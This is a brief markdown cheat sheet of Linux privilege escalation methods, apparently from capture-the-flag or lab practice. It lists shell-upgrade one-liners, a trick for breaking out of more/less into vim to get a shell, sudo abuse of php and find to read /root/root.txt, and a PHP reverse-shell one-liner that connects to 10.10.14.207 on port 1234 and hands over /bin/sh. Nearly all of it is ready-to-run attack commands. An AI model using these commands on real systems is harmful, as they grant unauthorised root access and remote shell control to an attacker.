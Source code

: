 # privilege escalation methods

## improving shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
script /dev/null -c bash

## more|less > vi

if something is using more/less as an elevated user make the window smaller so it activates more or less
press `v` drops us in vim
using `:#!/bin/bash` we can get a shell

## sudo -l: shows php

sudo /usr/bin/php -r "system('whoami');"

sudo /usr/bin/php -r '$sock=fsockopen("10.10.14.207",1234);exec("/bin/sh <&3 >&3 2>&3");'

## sudo -l: shows find

sudo /usr/bin/find /root/root.txt -exec cat {} \;
